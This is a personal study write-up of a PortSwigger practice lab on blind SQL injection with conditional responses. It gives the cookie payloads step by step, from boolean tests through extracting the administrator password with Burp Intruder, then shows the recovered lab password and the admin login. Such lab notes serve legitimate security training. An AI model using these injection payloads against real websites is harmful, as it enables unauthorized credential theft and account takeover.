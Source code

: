 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/d11-05-mar/lab/"}
---
```


# **Blind SQL injection with conditional responses**

[Access the PortSwigger lab](https://portswigger.net/web-security/sqlinjection/blind/lab-conditional-responses)

*Note :*
- analyse the app & ask the developer which part of the request is executing sql query at the backend

### Exploiting Blind SQL Injection via Cookies

1️⃣ Vulnerability: The app uses a tracking cookie in an SQL query but does not show query results or errors.

2️⃣ Indicator: If the query returns rows, a "Welcome back" message appears—this confirms the injection.

3️⃣ Confirm SQL Injection: 
-  Set TrackingID=xyz' AND '1'='1 → If "Welcome back" appears, it's vulnerable.
- Set TrackingID=xyz' AND '1'='2 → If message disappears, injection is confirmed.

- On true condition -images will be loaded/response contains specific mssg/response contains one specific msg
- on false condition - images will disappear/response wont contain specific mssg/response contains another specific msg

#### Step 1 : 1st method : boolean method → 1' AND 10=10 `#`
![attachments/Pasted image 20250319192531.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192531.png)

#### Step 2 : intercept on → view details →
![attachments/Pasted image 20250319192617.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192617.png)

#### Step 3 : send to repeater
![attachments/Pasted image 20250319192629.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192629.png)

#### Step 4 : without tampering the tracking id we get the welcome back mssg
![attachments/Pasted image 20250319192702.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192702.png)

#### Step 5 : now when we tamper the tracking id -->we aint getting the welcome back mssg
![attachments/Pasted image 20250319192733.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192733.png)

#### Step 6 : now giving a true condition in tampering id → you can seee the welcome back mssg
![attachments/Pasted image 20250319192809.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192809.png)

#### Step 7 : now give a false condition → you cant see the welcome back mssg
![attachments/Pasted image 20250319192840.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192840.png)

#### Step 8 : TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
![attachments/Pasted image 20250319192916.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192916.png)

- explanation:
![attachments/Pasted image 20250319192938.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192938.png)

#### Step 9 : ' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![attachments/Pasted image 20250319193014.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193014.png)

- explanation:
![attachments/Pasted image 20250319193034.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193034.png)

#### Step 10 : ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![attachments/Pasted image 20250319193112.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193112.png)

![attachments/Pasted image 20250319193126.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193126.png)

#### Step 11 :' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
![attachments/Pasted image 20250319193207.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193207.png)

![attachments/Pasted image 20250319193216.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193216.png)

#### Step 12 : so after writting ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
- we can see that we cant see welcome back so the password has 20 characters
![attachments/Pasted image 20250319193327.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193327.png)

- how do we know its 20??
- now from repeater → send to intruder

![attachments/Pasted image 20250319193357.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193357.png)

- now in intruder edit the tracking id :
' AND (SELECT 'a' FROM users WHERE username='administrator' AND
LENGTH(password)>1)='a
- select the payload 1 in order to know how many characters does the password has.
![attachments/Pasted image 20250319193442.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193442.png)

- select the payloads type as numbers. and do the rest from the below screenshot.
![attachments/Pasted image 20250319193543.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193543.png)

- go to settings → grep match → Welcome back (as we are checking for welcome back ) → add it
![attachments/Pasted image 20250319193617.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193617.png)

- now from 0 -19 , we are getting 1 in the weclome back column , after that we aint gettting 1 , so hereby we know that from 0-19 there are 20 characters so the password is of 20 characters.
![attachments/Pasted image 20250319193653.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193653.png)

- Now again go to intruder and edit the following
trackign id :
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a 
- set the attack type as : Cluster bomb
![attachments/Pasted image 20250319193733.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193733.png)

- for payload 1 do the following settings
![attachments/Pasted image 20250319193753.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193753.png)

- for payload 2 do the the following settings
![attachments/Pasted image 20250319193813.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193813.png)

- go to grep match and settings add welcome back.
![attachments/Pasted image 20250319193841.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193841.png)

- now your password is these : cqasso52s97tr1nmimol
![attachments/Pasted image 20250319193911.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193911.png)

- now go to login page : administrator 
- password :cqasso52s97tr1nmimol

![attachments/Pasted image 20250319193958.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193958.png)

- so you cracked the password and logged inside the admin page !! 🔪🥷🔪

#                                    ---****---

